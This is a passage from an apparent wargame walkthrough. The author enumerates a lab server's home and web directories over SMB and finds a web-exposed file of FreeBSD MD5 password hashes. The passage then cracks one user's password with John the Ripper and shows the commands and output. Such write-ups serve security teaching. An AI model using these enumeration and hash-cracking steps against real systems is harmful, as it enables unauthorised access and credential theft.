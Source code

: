 ```
```

We have one foot in the server, now we can do some more enumerating and see what files and directories exist. The /rootfs/home directory shows only three users:

```
smb: \rootfs\> cd home
smb: \rootfs\home\> ls
  .                                   D        0  Mon Feb 14 06:00:31 2011
  ..                                  D        0  Tue Aug 28 20:40:02 2012
  jsummer                             D        0  Mon Feb 21 06:25:30 2011
  mhog                                D        0  Mon Feb 21 06:15:57 2011
  tskies                              D        0  Mon Feb 21 06:20:55 2011
 
  38631 blocks of size 16384. 30439 blocks available
smb: \rootfs\home\> 
```

We are unsuccessful in accessing the contents of the directories due to lack of permissions.

We find an interesting file in rootfs/var/www called garbage.

```
smb: \rootfs\var\www\htdocs\> ls
  .                                   D        0  Fri Feb 18 06:41:43 2011
  ..                                  D        0  Tue Mar 20 04:58:04 2001
  Images                              D        0  Fri Feb 18 06:22:50 2011
  garbage                                    288  Fri Feb 18 06:41:14 2011
  index.html                          A     3001  Fri Feb 18 06:33:59 2011
  info.php                            A       21  Fri Feb 18 06:06:04 2011
  status.html                         A     2456  Fri Feb 18 06:28:46 2011
 
  38631 blocks of size 16384. 30088 blocks available
smb: \rootfs\var\www\htdocs\>
```

Since this file is hosted by the web server, we open it with Firefox and discover UNIX encrypted password hashes, possibly belonging to the server itself:

![](/images/2012-08-29/06.png)

We save this into a file and crack it with john. Using --single, we immediately crack mhog's password, which is mhog:

```
root mugbear.maximera ~/wargames/loophole
# /pentest/passwords/john/john --single garbage.txt 
Loaded 3 password hashes with 3 different salts (FreeBSD MD5 [128/128 SSE2 intrinsics 4x])
mhog             (mhog)
guesses: 1  time: 0:00:00:00 DONE (Wed Aug 29 02:03:43 2012)  c/s: 4545  trying: tskies1903 - tskies1900
Use the "--show" option to display all of the cracked passwords reliably
```
